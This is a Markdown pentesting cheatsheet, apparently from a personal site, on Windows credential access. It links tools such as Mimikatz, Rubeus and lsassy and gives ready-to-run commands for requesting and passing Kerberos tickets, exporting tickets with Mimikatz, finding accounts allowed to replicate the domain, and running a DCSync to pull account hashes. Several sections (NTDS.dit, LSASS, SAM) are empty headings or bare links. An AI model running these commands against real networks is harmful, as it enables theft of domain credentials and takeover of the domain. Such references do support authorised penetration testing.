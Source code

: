 ```yaml
---
layout: post
title: TA0006 Credentials Access - Windows
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-09-07
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [PRE-REQUISITES](#PRE-REQUISITES)
	* [WHICH OS ? WHAT CREDS ?](#WHICHOSWHATCREDS)
	* [Rubeus](#Rubeus)
	* [Other tools](#Othertools)
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [DCSync attack](#DCSyncattack)
* [NTDS.dit dump](#NTDS.ditdump)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITES'></a>PRE-REQUISITES

### <a name='WHICHOSWHATCREDS'></a>WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: 
* [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)

### <a name='Rubeus'></a>Rubeus 
```powershell
# compilation
```

### <a name='Othertools'></a>Other tools
- Mimikatz: [Cheatsheet]() / [Repository]() / [Binaries]()
- Pypykatz: [Cheatsheet]() / [Repository]()
- Impacket: [Cheatsheet](https://www.hackingarticles.in/abusing-kerberos-using-impacket/) / [Repository]()
- lsassy:  [Cheatsheet]() / [Repository](https://github.com/Hackndo/lsassy)
- lsass-shtinkering: [Repository](https://github.com/deepinstinct/Lsass-Shtinkering)
- DumpThatLSASS: [Repository](https://github.com/D1rkMtr/DumpThatLSASS)
- HandleKatz: [Repository](https://github.com/codewhitesec/HandleKatz)
- masky: [Repository](https://github.com/Z4kSec/Masky)
- donpapi: [Repository](https://github.com/login-securite/DonPAPI)


## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

[Wiki Rubeus](https://github.com/GhostPack/Rubeus)

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='DCSyncattack'></a>DCSync attack

- [T1003.006](https://attack.mitre.org/techniques/T1003/006) DCSYNC

```powershell
# get the account's SID 
get-netuser $zlat_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select objectsid

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-DomainObjectAcl $zdom_dn -ResolveGUIDs  -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

# check the ACL permissions
Get-ObjectAcl -Identity $zdom_dn -DomainController $zdom_dc_fqdn -Domain $zdom_fqdn -ResolveGUIDs | ? {$_.ObjectSID -match "S-1-5-21-xxx"}

# run the DCsync
mimikatz.exe privilege:debug
lsadump::dcsync /dc:$zdom_dc /domain:$zdom_fqdn /user:$zlat_user
```

## <a name='NTDS.ditdump'></a>NTDS.dit dump


## <a name='LSASS.exedump'></a>LSASS.exe dump

- [lsassy](https://github.com/Hackndo/lsassy)
- [lsass-shtinkering](https://github.com/deepinstinct/Lsass-Shtinkering)

## <a name='SAMdump'></a>SAM dump
